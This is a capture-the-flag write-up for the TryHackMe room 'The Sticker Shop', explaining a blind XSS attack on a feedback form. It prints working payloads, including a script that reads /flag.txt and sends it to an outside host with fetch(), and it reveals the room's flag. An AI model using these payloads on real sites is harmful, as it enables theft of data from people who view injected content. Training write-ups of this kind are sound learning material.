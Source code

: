## The Sticker Shop 
You can join this room [Here](https://tryhackme.com/r/room/thestickershop)

This was an easy-level XSS challenge where the goal was to inject Blind XSS and retrieve the flag. Initially, I tried directory brute-forcing, but it yielded no results.The endpoint `http://xxx/submit_feedback` which allowed form submissions and the response only included a static reflection: ` Thanks for your feedback! It will be evaluated shortly by our staff`.

From the challenge description: `they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback`. This clue suggested that the feedback would eventually be reviewed in staff's browser on the same system, making it a perfect scenario for Blind XSS. And listening on remote won't be worked.

### Exploitation
I hosted a local server on port 5000 and injected the following payload: `<script src="http://myip:5000"></script>` . When the payload executed, it confirmed that the feedback was being reviewed in a browser.

<img src="https://raw.githubusercontent.com/c1thu/tryhackme/refs/heads/main/TheStickerShop/stickshop1.png">

Next, I attempted to retrieve the contents of the `flag.txt` file using this payload:

`<script>fetch('/flag.txt').then(res => res.text()).then(flag => fetch('http://myweb.com/?flag='+encodeURIComponent(flag)))</script>`

After submitting the payload, I successfully received the flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

<img src="https://raw.githubusercontent.com/c1thu/tryhackme/refs/heads/main/TheStickerShop/stickshop2.png">

\>_ Happy Hacking
